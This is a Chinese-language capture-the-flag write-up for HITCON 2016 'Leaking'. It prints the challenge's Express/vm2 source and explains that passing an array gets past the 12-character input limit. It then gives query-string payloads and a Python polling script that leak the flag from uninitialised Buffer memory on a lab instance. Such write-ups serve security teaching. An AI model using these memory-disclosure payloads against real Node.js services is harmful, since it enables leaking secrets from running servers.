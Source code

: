 # \[HITCON 2016]Leaking

## \[HITCON 2016]Leaking

## 考点

* Node.js 审计
* vm2沙盒逃逸

## wp

```javascript
"use strict";

var randomstring = require("randomstring");
var express = require("express");
var {
    VM
} = require("vm2");
var fs = require("fs");

var app = express();
var flag = require("./config.js").flag

app.get("/", function(req, res) {
    res.header("Content-Type", "text/plain");

    /*    Orange is so kind so he put the flag here. But if you can guess correctly :P    */
    eval("var flag_" + randomstring.generate(64) + " = \"hitcon{" + flag + "}\";")
    if (req.query.data && req.query.data.length <= 12) {
        var vm = new VM({
            timeout: 1000
        });
        console.log(req.query.data);
        res.send("eval ->" + vm.run(req.query.data));
    } else {
        res.send(fs.readFileSync(__filename).toString());
    }
});

app.listen(3000, function() {
    console.log("listening on port 3000!");
});
```

题目代码大概在说这么一件事

首先引入一些需要的模块，其中值得注意的是vm2模块，它是一个Node.js官方vm模块的替代品，用来创建一个干净的上下文环境。使用官方的vm库构建沙箱环境。然后使用JavaScript的Proxy技术来防止沙箱脚本逃逸。更多的资料可以看这里[https://segmentfault.com/a/1190000012672620](https://segmentfault.com/a/1190000012672620)

然后要Get传递一个`data`参数，将它放在vm2创建的沙盒中运行，并且对传入的参数长度进行了限制，不超过`12`，这里可以用数组绕过。

下面的问题就是如何逃逸

> 在较早一点的 node 版本中 (8.0 之前)，当 `Buffer` 的构造函数传入数字时, 会得到与数字长度一致的一个 Buffer，并且这个 Buffer 是未清零的。8.0 之后的版本可以通过另一个函数 `Buffer.allocUnsafe(size)` 来获得未清空的内存。
>
> 低版本的node可以使用`buffer()`来查看内存，只要调用过的变量，都会存在内存中，那么我们可以构造paylaod读取内存
>
> [https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md](https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md)

payload 1（失败）

```
?data[]=for (var step = 0; step < 100000; step++) {var buf = (new Buffer(100)).toString('ascii');if (buf.indexOf("hitcon{") !== -1) {break;}}buf;
```

payload 2

```
?data=Buffer(800)
```

脚本

```python
import requests

url = 'http://7e08fc0a-3009-4eb3-84d3-2a32b1dfa645.node3.buuoj.cn/?data=Buffer(800)'

while True:
    res = requests.get(url)
    print(res.status_code)

    if 'hitcon{' in res.text:
        print(res.text)
        break
```

## 小结

1. 关于Node.js中的Buffer(缓冲区)，是用来创建一个专门存放二进制数据的缓存区，见[Node.js Buffer(缓冲区)](https://www.runoob.com/nodejs/nodejs-buffer.html)

